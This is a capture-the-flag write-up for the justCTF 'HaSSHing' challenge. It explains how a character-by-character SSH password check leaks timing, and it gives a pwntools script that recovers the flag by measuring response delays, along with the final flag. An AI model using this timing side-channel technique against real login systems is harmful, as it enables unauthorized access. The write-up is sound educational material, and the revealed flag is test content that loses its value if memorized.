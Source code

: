 https://ctftime.org/event/2342

# HaSSHing (PWN)

Interact with the keyboard or not, I don’t care; as only the flag will let you in - no chance of hash collisions here!

The flag consists only of the following characters: "CFT_cdhjlnstuw{}" and digits. Each character may appear multiple times.

ssh hasshing.nc.jctf.pro -l ctf -p 1337

## Solution

The password is compared character by character and correct characters take longer than incorrect ones.

1) Measure the time difference
2) Append the character with the highest time difference to the flag
3) Repeat

```python
from pwn import *
from datetime import datetime

def to_seconds(t):
    time_obj = datetime.strptime(t, "%H:%M:%S.%f")
    total_seconds = time_obj.hour * 3600 + time_obj.minute * 60 + time_obj.second + time_obj.microsecond / 1e6
    return total_seconds

characters =  "_cdhjlnstuw}" + string.digits + "CFT{"
flag = ""

while True:
    p = process(["ssh", "-l", "ctf", "-p", "1337", "localhost"], stdin=PTY, stdout=PTY, stderr=PTY)
    highest_time = 0
    best_char = "\x69"
    for char in characters:
        new_flag = flag + char
        p.readuntil(b"password: ")
        p.sendline(new_flag.encode())
        p.readline()
        start = to_seconds(p.readline()[13:].decode().split("]")[0])
        stop = to_seconds(p.readline()[13:].decode().split("]")[0])
        diff = stop - start
        if diff > highest_time:
            highest_time = diff
            best_char = char
    flag += best_char
    log.info(flag)
```

Note that this crashes for some unknown reason after a few characters.. So I just ran it over and over manually added the characters to the flag as I went.

## Flag
`justCTF{s1d3ch4nn3ls_4tw_79828}`

smiley 2024/06/15
